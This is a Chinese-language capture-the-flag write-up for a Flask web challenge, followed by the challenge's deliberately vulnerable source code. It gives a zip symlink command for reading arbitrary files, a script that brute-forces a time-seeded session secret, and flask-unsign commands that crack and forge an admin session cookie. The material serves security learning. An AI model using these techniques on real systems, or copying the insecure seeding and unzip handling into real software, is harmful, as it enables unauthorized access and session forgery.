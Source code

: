 tags:: [[CTFWEB/Flask]], [[CTFWEB/Zip]]

- # 题解
	- 题目源码解析:`app.py`
		- `/login`登陆接口
		- `/register`注册接口
		- `/upload`接收用户发送的zip文件，解压，并将解压后的路径告诉用户
		- `/uploads/<path>`读取zip解压后的文件并发给用户
		- `/flag`如果用户是admin即发送flag
		- 后端使用flask，其特点是将session签名保存在用户的cookie中，攻击者只需要想办法获取secret就可以伪造session
		- 将日志保存在`/tmp/server.log`中，可以通过日志判断启动时间
	- 源码解析:`config.py`
		- 会使用随机数生成secret用于签名session
		- 随机数种子用启动的时间以及`SECRET_OFFSET`的值生成
		- 播种公式：`random.seed(round((time.time() + SECRET_OFFSET) * 1000))`
			- `time.time()`时间戳，精确到毫秒
			- 种子：四舍五入的`(time.time() + SECRET_OFFSET) * 1000`
	- 任意文件读取：软链接攻击
	  id:: 63c3b277-fdc4-479f-974a-abc0cf1a9fc4
		- 在zip包内保存一个软链接，然后再让服务器读取这个软链接即可读取任意文件
		- 可以使用 [[CTFWEB/Zip]] 读取任意文件
			- `ln -s /app/config.py file && zip -ry zip.zip file && base64 -w 0 zip.zip`
		- 无权读取flag文件
	- 主要思路：
		- 用任意文件读取漏洞读取`SECRET_OFFSET`和服务器启动时间
		  id:: 63c3b477-fe5e-4a86-8157-a27026da0934
		- 生成所有可能的secret
		  id:: 63c3b77c-b5b5-4079-a40f-2c005088f6f9
			- 因为服务器启动时间不够精确，只能这样
		- 用 [[CTFWEB/Flask-Unsign]] 测试所有的secret, 发现只有一个可以解密签名
		  id:: 63c3b79c-6531-4b4c-833a-d2c4a0691519
		- 使用正确的secret伪造管理员身份拿到flag
		  id:: 63c3b85f-9bc5-4586-8bf1-318f562379d7
		- [[draws/2023-01-15-16-17-22.excalidraw]]
	- ((63c3b477-fe5e-4a86-8157-a27026da0934))
		- 使用 ((63c3b277-fdc4-479f-974a-abc0cf1a9fc4)) 读取`/app/config.py`和`/tmp/server.log`即可
	- ((63c3b77c-b5b5-4079-a40f-2c005088f6f9))
		- 代码：
			- ```python
			  from datetime import datetime
			  import random
			  
			  def timestamp_to_secret(timestamp):
			      random.seed(round((timestamp) * 1000))
			      return "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
			  
			  SECRET_OFFSET = -67198624
			  
			  date_string = "2023-01-14 23:03:32 +0000"
			  dt_format = datetime.strptime(date_string, '%Y-%m-%d %H:%M:%S %z')
			  
			  timestamp = dt_format.timestamp()
			  timestamp += SECRET_OFFSET
			  
			  l = []
			  
			  for i in range(-2000, 2000):
			      l.append(timestamp_to_secret(timestamp + i / 1000))
			  
			  with open("test.txt", "w") as f:
			      f.writelines([line + "\n" for line in l])
			  ```
	- ((63c3b79c-6531-4b4c-833a-d2c4a0691519))
		- 运行`flask-unsign -u -w test.txt -c eyJhZG1pbiI6ZmFsc2UsInVpZCI6InRlc3R0ZXN0In0.Y8OwiQ.rKYwk2_A8u4XQqEyTJbVL5WcV64`
	- ((63c3b85f-9bc5-4586-8bf1-318f562379d7))
		- `flask-unsign -s --secret e897071bf3d5dc6ff7882fc0b64ece5c --cookie "{'admin': True, 'uid': 'testtest'}"`
- # 源码
	- `app.py`
		- ```python
		  import logging
		  import os
		  import re
		  import sqlite3
		  import subprocess
		  import uuid
		  import zipfile
		  
		  from flask import (Flask, flash, redirect, render_template, request, abort,
		                     send_from_directory, session)
		  from werkzeug.security import check_password_hash, generate_password_hash
		  
		  
		  app = Flask(__name__)
		  DATA_DIR = "/tmp/"
		  
		  # 设置最大文件大小
		  app.config['MAX_CONTENT_LENGTH'] = 2 * 1000 * 1000
		  
		  # 配置日志模块，将所有日志存储在/tmp/server.log中
		  LOG_HANDLER = logging.FileHandler(DATA_DIR + 'server.log')
		  LOG_HANDLER.setFormatter(logging.Formatter(fmt="[{levelname}] [{asctime}] {message}", style='{'))
		  logger = logging.getLogger("application")
		  logger.addHandler(LOG_HANDLER)
		  logger.propagate = False
		  for handler in logging.root.handlers[:]:
		      logging.root.removeHandler(handler)
		  logging.basicConfig(level=logging.WARNING, format='%(asctime)s %(levelname)s %(name)s %(threadName)s : %(message)s')
		  logging.getLogger().addHandler(logging.StreamHandler())
		  
		  # 设置秘密
		  app.config["SECRET_KEY"] = os.environ["SECRET_KEY"]
		  
		  @app.route("/")
		  def index():
		      return render_template("index.html")
		  
		  
		  @app.route("/login", methods=["GET", "POST"])
		  def login():
		      session.clear()
		  
		      if request.method == "GET":
		          return render_template("login.html")
		  
		      # 获取用户名和密码
		      username = request.form.get("username", "")
		      password = request.form.get("password", "")
		  
		      # 根据用户名查询密码，并和输入的密码对比
		      with sqlite3.connect(DATA_DIR + "database.db") as db:
		          res = db.cursor().execute("SELECT password, admin FROM users WHERE username=?", (username,))
		          user = res.fetchone()
		          if not user or not check_password_hash(user[0], password):
		              flash("Incorrect username/password", "danger")
		              return render_template("login.html")
		      
		      # 设置uid和admin
		      session["uid"] = username
		      session["admin"] = user[1]
		      return redirect("/upload")
		  
		  
		  @app.route("/register", methods=["GET", "POST"])
		  def register():
		      session.clear()
		  
		      if request.method == "GET":
		          return render_template("register.html")
		  
		      # 获取用户名和密码，用户名需要符合[a-zA-Z0-9_]{1,24}
		      username = request.form.get("username", "")
		      password = request.form.get("password", "")
		      if not username or not password or not re.fullmatch("[a-zA-Z0-9_]{1,24}", username):
		          flash("Invalid username/password", "danger")
		          return render_template("register.html")
		      
		      # 查询用户名是否重复，添加用户
		      with sqlite3.connect(DATA_DIR + "database.db") as db:
		          res = db.cursor().execute("SELECT username FROM users WHERE username=?", (username,))
		          if res.fetchone():
		              flash("That username is already registered", "danger")
		              return render_template("register.html")
		          
		          db.cursor().execute("INSERT INTO users (username, password) VALUES (?, ?)", (username, generate_password_hash(password)))
		          db.commit()
		      
		      session["uid"] = username
		      session["admin"] = False
		      return redirect("/upload")
		  
		  
		  @app.route("/upload", methods=["GET", "POST"])
		  def upload():
		      if not session.get("uid"):
		          return redirect("/login")
		      if request.method == "GET":
		          return render_template("upload.html")
		  
		      if "file" not in request.files:
		          flash("You didn't upload a file!", "danger")
		          return render_template("upload.html")
		      
		  
		      file = request.files["file"]
		  
		      # 生成随机名字并保存
		      uuidpath = str(uuid.uuid4())
		      filename = f"{DATA_DIR}uploadraw/{uuidpath}.zip"
		      file.save(filename)
		  
		      # 解压缩
		      subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])
		  
		      # 通知
		      flash(f'Your unique ID is <a href="/uploads/{uuidpath}">{uuidpath}</a>!', "success")
		      logger.info(f"User {session.get('uid')} uploaded file {uuidpath}")
		      return redirect("/upload")
		  
		  
		  @app.route("/uploads/<path:path>")
		  def uploads(path):
		      try:
		          return send_from_directory(DATA_DIR + "uploads", path)
		      except PermissionError:
		          abort(404)
		  
		  
		  @app.route("/flag")
		  def flag():
		      if not session.get("admin"):
		          return "Unauthorized!"
		      return subprocess.run("./flag", shell=True, stdout=subprocess.PIPE).stdout.decode("utf-8")
		  ```
	- `config.py`
		- ```python
		  import random
		  import os
		  import time
		  
		  SECRET_OFFSET = 0 # REDACTED
		  random.seed(round((time.time() + SECRET_OFFSET) * 1000))
		  os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
		  ```